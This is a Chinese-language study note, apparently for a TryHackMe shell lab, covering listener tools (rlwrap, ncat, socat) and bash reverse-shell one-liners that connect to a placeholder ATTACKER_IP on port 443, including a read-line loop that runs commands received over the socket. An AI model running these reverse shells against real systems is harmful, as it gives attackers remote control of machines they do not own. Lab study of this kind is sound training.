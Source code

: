 ## task5
shell监听器

### 1. Rlwrap

它是一个小型实用程序，使用 GNU readline 库来提供编辑键盘和历史记录。

使用示例（使用 Rlwrap 增强 Netcat Shell）

```
attacker@kali:~$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```
允许使用箭头键和历史记录等功能实现更好的交互。

### 2. Ncat
Ncat
Ncat 是NMAP项目发布的 Netcat 的改进版本。它提供了加密（SSL）等额外功能。

```
attacker@kali:~$ ncat --ssl -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B7AC F999 7FB0 9FF9 14F5 5F12 6A17 B0DC B094 AB7F
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

### 3. Socat
它是一个实用程序，允许您在两个数据源（在本例中是两个不同的主机）之间创建套接字连接。

默认使用示例（监听反向 Shell）：
```
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```
上述命令使用了-d选项来启用详细输出；再次使用 -d 将增加命令的详细程度。
该选项在端口 上TCP-LISTEN:443创建一个TCP443侦听器，为传入连接建立服务器套接字。最后，STDOUT选项将所有传入数据定向到终端。

![task5](/img/user/images/tryhackme-shell：概括/task5.png)

## task6
### bash
#### 1. 普通 Bash 反向 Shell
```
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```
该反向 shell 启动一个交互式 bash shell，该 shell 通过TCP连接将输入和输出重定向到攻击者的 IP（ATTACKER_IP）上的端口443。>&运算符结合了标准输出和标准错误。


#### 2. Bash 读取行 反向 Shell
```
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```
此反向 shell 创建一个新的文件描述符（5 在本例中）并连接到TCP套接字。它将从套接字读取并执行命令，并通过同一套接字将输出发回。
